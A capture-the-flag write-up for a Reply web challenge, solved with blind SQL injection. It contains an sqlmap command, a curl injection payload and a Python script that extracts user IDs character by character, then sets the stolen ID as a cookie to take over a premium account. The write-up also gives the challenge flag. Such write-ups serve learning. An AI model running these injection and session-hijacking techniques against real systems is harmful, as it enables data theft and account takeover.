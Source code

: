 #### Challenge:

The palace of the Web Realm, a gleaming place called Hypercloud, is guarded by Polyglot, an amorphous being that travels through the ether at extraordinary speeds. Polyglot is an arcane guardian, with the ability to speak and understand all existing languages.

[[Enter the Tavern](http://gamebox1.reply.it/web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/)](http://gamebox1.reply.it/web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/)

---

#### Solution:

- poking around the application revealed that one page have hidden form field
```html
<form hidden="true">
    <input name="year">
</form>
```
- using it with `sqlmap -u "http://gamebox1.reply.it/web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/hof" --data "year=*" --random-agent --level 5 --risk 3 --dbs` reveals that there is SQL injection
- after long time digging and trying out different stuff we found that there is in the same table also `uid` column that could be leaked/guessed for the `top` players with `curl -vX POST  'http://gamebox1.reply.it/web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/hof' --data "year=' or (1=1 and year=2023 and name='humming_non-smoker2003' and uid like '2%')--"`

```python
import requests
import string

candidates = "abcdef" + string.digits + '-'

ses = requests.session()

r = ses.post(
    "http://gamebox1.reply.it/web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/hof",
    data={"year": "' or 1=1 --"}
)

names = []

for line in r.text.splitlines():
    if '<td class="prize">' in line:
        names.append(
            line.split(">")[1].split("<")[0]
        )

uuid = ""

for name in names:
    while len(uuid) < 36:
        for c in candidates:
            r = ses.post(
                f'http://gamebox1.reply.it/web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/hof',
                data={"year": "' or (1=1 and name='" + name + "' and uid like '" + uuid + c + "%')--"})

            listings = []
            for line in r.text.splitlines():
                if '<td class="prize">' in line:
                    listings.append(
                        line.split(">")[1].split("<")[0]
                    )

            if len(listings) == 1 and name in r.text:
                uuid = uuid + c
                break

    ses.cookies.set("UID", uuid, domain="gamebox1.reply.it")
    r = ses.post(
        "http://gamebox1.reply.it/web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/bets_history")

    if "You need a premium account to use the feature" not in r.text:
        print(name, uuid, "Premium")
        break
    else:
        print(name, uuid)
    uuid = ""
```

- now that we have `uid` of premium account we can just follow it's bid based on `bets_history` and earn the `prize`

---

<details><summary>FLAG:</summary>

```
{FLG: I_4m_n0t_impressed_by_y0ur_perf0rm4nce}
```

</details>

